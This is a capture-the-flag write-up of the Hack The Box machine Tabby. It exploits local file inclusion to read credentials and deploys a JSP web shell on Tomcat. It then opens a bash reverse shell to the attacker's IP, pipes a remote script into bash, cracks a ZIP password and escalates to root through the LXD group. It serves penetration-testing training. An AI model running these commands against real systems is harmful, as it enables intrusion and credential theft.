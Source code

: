 # Tabby

This is the write-up for the box Tabby that got retired at the 7th November 2020.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.194    tabby.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/tabby.nmap 10.10.10.194
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page is a custom-developed company website with the title _"Mega Hosting"_ that offers server hosting services.

![Mega Hosting homepage](tabby_web-1.png)

There is a statement from the company about a data breach, which forwards to the domain _megahosting.htb_, so lets put that into our _/etc/hosts_ file:
```
We have recently upgraded several services. Our servers are now more secure than ever. Read our statement on recovering from the data breach
```

It forwards to _/news.php?file=statement_ which looks like it is vulnerable to a **Local File Inclusion** vulnerability.
That means that it reads a file from the system and a different file may be specified on the box:
```
GET /news.php?file=/../../../../../etc/passwd
```

It works and outputs the contents of _/etc/passwd_.
The web files of the service on port 80 do not look interesting, so maybe on port 8080 are important files to obtain.

## Checking HTTP (Port 8080)

The web page on port 8080 shows the default installation information that **Tomcat** was installed successfully.
On Tomcat the administration page can be found on _/manager_ but it needs credentials.

The file _tomcat-users.xml_ has the users for that and can be read by using the LFI vulnerability:
```
GET /news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml
```
```
<role rolename="admin-gui"/>
<role rolename="manager-script"/>
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
```

It shows the HTTP status code _403 Forbidden_ because the Tomcat Manager is by default only accessible by localhost.
But we are able to use the credentials anyway and use a _PUT method_ on the correct path to upload files.

The **Tomcat** web server runs Java and can execute **WAR files**, which is archived Java code.
The [GitHub repository of tennc](https://github.com/tennc/webshell) has many different web shells and I will use [cmdjsp.jsp](https://github.com/tennc/webshell/blob/master/jsp/cmdjsp.jsp).

Creating a **WAR file** out of the JSP shell:
```
zip cmdjsp.war cmdjsp.jsp
```

Uploading the JSP web shell:
```
curl -T cmdjsp.war -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/app
```

After it is successfully uploaded, it can be found in _/app/cmdjsp.jsp_:
```
http://10.10.10.194:8080/app/cmdjsp.jsp
```

It takes commands in the POST data and `whoami` is used to proof command execution:
```
POST /app/cmdjsp.jsp HTTP/1.1
Host: 10.10.10.194:8080
(...)
cmd=whoami
```

The next step is to execute a reverse shell, but as this web shell has problems with special characters, we will instead upload a reverse shell script on the box and execute it after.

Creating reverse shell script _(shell.sh)_:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.10/9001 0>&1'
```

Downloading the script to the box:
```
cmd=curl 10.10.14.10:8000/shell.sh -o /tmp/shell
```

Executing the script on the box:
```
cmd=bash /tmp/shell
```

After executing it, the listener on my IP and port 9001 starts a reverse shell as the user _tomcat_.

## Privilege Escalation

When analyzing the web files, there is a suspicious ZIP archive in _/var/www/html/files_ called _16162020_backup.zip_:
```
unzip 16162020_backup.zip

Archive:  16162020_backup.zip
[16162020_backup.zip] var/www/html/favicon.ico password:
```

It is password protected, so it needs to be cracked on our local client:
```
zip2john 16162020_backup.zip
```
```
john backup-zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

It gets cracked and the password for the ZIP archive is:
> admin@it

The ZIP archive has the files of the web page and only _index.php_ differs from the one on the box, but it does not contain any sensitive information.
After trying the password on the user _ash_ it works:
```
su - ash
```

### Privilege Escalation to root

To get an attack surface on the box, it is recommended to run any **Linux Enumeration Script**:
```
curl 10.10.14.10/linpeas.sh | bash
```

The user _ash_ is a member of the **lxd group**, which allows to deploy containers.
A container can have the file system of the box mounted and thus it will be possible to read all files from the host system.

I will follow the [instructions on HackTricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#method-1):

Installing all the requirements and creating container on our local client:
```
apt install -y golang-go debootstrap rsync gpg squashfs-tools
go get -d -v github.com/lxc/distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
$HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```

Uploading the two files _rootfs.squashfs_ and _lxd.tar.xz_ to the box:
```
ash@tabby:/tmp$ wget 10.10.14.10:8000/rootfs.squashfs

ash@tabby:/tmp$ wget 10.10.14.10:8000/lxd.tar.xz
```

Adding the image and then deploying the container on the box:
```
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine

# Lists the created image
lxc image list
```
```
# Answer every question with default values
lxd init

lxc init alpine privesc -c security.privileged=true

# Lists the created container
lxc list

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Starting the container and executing `sh` in it:
```
lxc start privesc
lxc exec privesc /bin/sh
```

The file systems root directory is mounted in the container on _/mnt/root_ and every file from the host can be found there.
In the directory _/mnt/root/root/.ssh_ is the private SSH key of root that can be copied to our local box and then used to access the box via SSH:
```
chmod 600 root.key

ssh -i root.key 10.10.10.194
```

A shell as root on the box is started!
